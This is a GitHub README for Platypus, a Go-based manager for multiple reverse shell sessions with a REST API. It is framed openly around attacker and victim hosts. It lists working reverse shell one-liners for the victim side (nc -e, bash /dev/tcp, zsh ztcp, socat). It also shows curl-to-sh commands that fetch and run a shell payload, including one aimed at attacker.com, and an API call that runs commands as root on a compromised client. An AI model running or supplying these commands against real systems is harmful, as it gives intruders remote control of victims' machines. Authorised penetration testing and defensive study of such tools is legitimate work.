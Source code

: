# Platypus

[![GitHub stars](https://img.shields.io/github/stars/WangYihang/Platypus.svg)](https://github.com/WangYihang/Platypus/stargazers)
[![GitHub license](https://img.shields.io/github/license/WangYihang/Platypus.svg)](https://github.com/WangYihang/Platypus)
[![Backers on Open Collective](https://opencollective.com/Platypus/backers/badge.svg)](#backers) 
[![Sponsors on Open Collective](https://opencollective.com/Platypus/sponsors/badge.svg)](#sponsors)

A modern multiple reverse shell sessions/clients manager via terminal written in go

#### Features
- [x] Multiple service listening port
- [x] Multiple client connections
- [x] RESTful API
- [x] Reverse shell as a service

#### Screenshot
![](https://upload-images.jianshu.io/upload_images/2355077-9ef699f1de815f9e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![](https://upload-images.jianshu.io/upload_images/2355077-bd729ecfe7d2dcc0.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

#### Network Topology
```
Attack IP: 192.168.1.2
    Reverse Shell Service: 0.0.0.0:8080
    RESTful Service: 127.0.0.1:9090
Victim IP: 192.168.1.3
```

#### Run Platypus from source code
```
go get github.com/WangYihang/Platypus
cd go/src/github.com/WangYihang/Platypus
go run platypus.go
```

#### Run Platypus from release binaries
```
// Download binary from https://github.com/WangYihang/Platypus/releases
chmod +x ./Platypus_linux_amd64
./Platypus_linux_amd64
```

#### Victim side
```
nc -e /bin/bash 192.168.1.2 8080
bash -c 'bash -i >/dev/tcp/192.168.1.2/8080 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 192.168.1.2 8080 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.2:8080  
```

#### Reverse shell as a Service
```bash
// Platypus is able to multiplexing the reverse shell listening port
// The port 8080 can receive reverse shell client connection
// Also these is a Reverse shell as a service running on this port

// victim will be redirected to attacker-host attacker-port
// sh -c "$(curl http://host:port/attacker-host/attacker-port)"
# curl http://192.168.1.2:8080/attacker.com/1337
bash -c 'bash -i >/dev/tcp/attacker.com/1337 0>&1'
# sh -c "$(curl http://192.168.1.2:8080/attacker.com/1337)"

// if the attacker info not specified, it will use host, port as attacker-host attacker-port
// sh -c "$(curl http://host:port/)"
# curl http://192.168.1.2:8080/
curl http://192.168.1.2:8080/192.168.1.2/8080|sh
# sh -c "$(curl http://host:port/)"
```

#### RESTful API
* `GET /client` List all online clients
```
# curl 'http://127.0.0.1:9090/client'
{
    "msg": [
        "192.168.1.3:54798"
    ],
    "status": true
}
```
* `POST /client/:hash` execute a command on a specific client
```
# curl -X POST 'http://127.0.0.1:9090/client/0723c3bed0d0240140e10a6ffd36eed4' --data 'cmd=whoami'
{
    "status": true,
    "msg": "root\n",
}
```
* How to hash?
```
# echo -n "192.168.1.3:54798" | md5sum
0723c3bed0d0240140e10a6ffd36eed4  -
```

#### TODO
- [ ] [#12 Add capability of setting human-readable name of session](https://github.com/WangYihang/Platypus/issues/12)
- [ ] [#13 Add a display current prompt setting](https://github.com/WangYihang/Platypus/issues/13)
- [ ] [#10 Use database to record all events and interacting logs](https://github.com/WangYihang/Platypus/issues/10)
- [ ] [#11 Make STDOUT and STDERR distinguishable](https://github.com/WangYihang/Platypus/issues/11)
- [ ] [#6 Send one command to all clients at once(Meta Command)](https://github.com/WangYihang/Platypus/issues/6)
- [ ] [#15 Encryption support](https://github.com/WangYihang/Platypus/issues/15)
- [ ] Send a specific command to all clients
- [ ] More interfaces in RESTful API
- [ ] RESTful API should auth
- [ ] Use crontab
- [ ] Use HR package to detect the status of client (maybe `echo $random_string`)
- [ ] Upgrade common reverse shell session into full interactive session
- [ ] Provide full kernel API
- [ ] Upload file
- [ ] Download file
- [ ] List file
- [ ] Web UI
- [ ] User guide
- [ ] Benchmark
- [ ] Upgrade to Metepreter session


## Contributors

This project exists thanks to all the people who contribute. 
<a href="https://github.com/WangYihang/Platypus/graphs/contributors"><img src="https://opencollective.com/Platypus/contributors.svg?width=890&button=false" /></a>


## Backers

Thank you to all our backers! 🙏 [[Become a backer](https://opencollective.com/Platypus#backer)]

<a href="https://opencollective.com/Platypus#backers" target="_blank"><img src="https://opencollective.com/Platypus/backers.svg?width=890"></a>


## Sponsors

Support this project by becoming a sponsor. Your logo will show up here with a link to your website. [[Become a sponsor](https://opencollective.com/Platypus#sponsor)]

<a href="https://opencollective.com/Platypus/sponsor/0/website" target="_blank"><img src="https://opencollective.com/Platypus/sponsor/0/avatar.svg"></a>
<a href="https://opencollective.com/Platypus/sponsor/1/website" target="_blank"><img src="https://opencollective.com/Platypus/sponsor/1/avatar.svg"></a>
<a href="https://opencollective.com/Platypus/sponsor/2/website" target="_blank"><img src="https://opencollective.com/Platypus/sponsor/2/avatar.svg"></a>
<a href="https://opencollective.com/Platypus/sponsor/3/website" target="_blank"><img src="https://opencollective.com/Platypus/sponsor/3/avatar.svg"></a>
<a href="https://opencollective.com/Platypus/sponsor/4/website" target="_blank"><img src="https://opencollective.com/Platypus/sponsor/4/avatar.svg"></a>
<a href="https://opencollective.com/Platypus/sponsor/5/website" target="_blank"><img src="https://opencollective.com/Platypus/sponsor/5/avatar.svg"></a>
<a href="https://opencollective.com/Platypus/sponsor/6/website" target="_blank"><img src="https://opencollective.com/Platypus/sponsor/6/avatar.svg"></a>
<a href="https://opencollective.com/Platypus/sponsor/7/website" target="_blank"><img src="https://opencollective.com/Platypus/sponsor/7/avatar.svg"></a>
<a href="https://opencollective.com/Platypus/sponsor/8/website" target="_blank"><img src="https://opencollective.com/Platypus/sponsor/8/avatar.svg"></a>
<a href="https://opencollective.com/Platypus/sponsor/9/website" target="_blank"><img src="https://opencollective.com/Platypus/sponsor/9/avatar.svg"></a>


